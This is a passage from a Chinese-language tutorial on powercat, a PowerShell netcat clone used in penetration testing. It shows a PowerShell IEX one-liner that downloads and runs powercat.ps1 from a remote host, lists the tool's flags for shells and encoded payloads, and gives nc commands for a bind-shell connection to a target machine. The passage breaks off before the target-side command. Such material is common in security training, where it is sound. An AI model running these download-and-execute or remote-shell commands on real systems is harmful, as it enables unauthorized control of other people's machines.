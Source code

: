 





```none
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

不过由于 github 在国内可能会无法打开，因此可以使用 web 代理站点或者把 powercat.ps1 文件放到自己的服务器上进行下载。

## 2、powercat 的使用

powercat 命令参数







```none
-l		监听模式
-p		指定监听端口
-e		指定启动进程的名称
-v		显示详情
-c		指定想要连接的 IP 地址
-ep		返回 powershell
-dns	使用 dns 通信
-g		生成 payload
-ge		生成经过编码的 payload，可以直接使用 powershell -e 执行该 payload
```

可以看到和 nc 的命令还是很相似的。

### 正向连接

Kali 上的 nc 连接到靶机







```none
nc -v rhost rport
```







```none
nc -v 172.16.214.21 4444
```

靶机开启监听，等待 Kali 连接






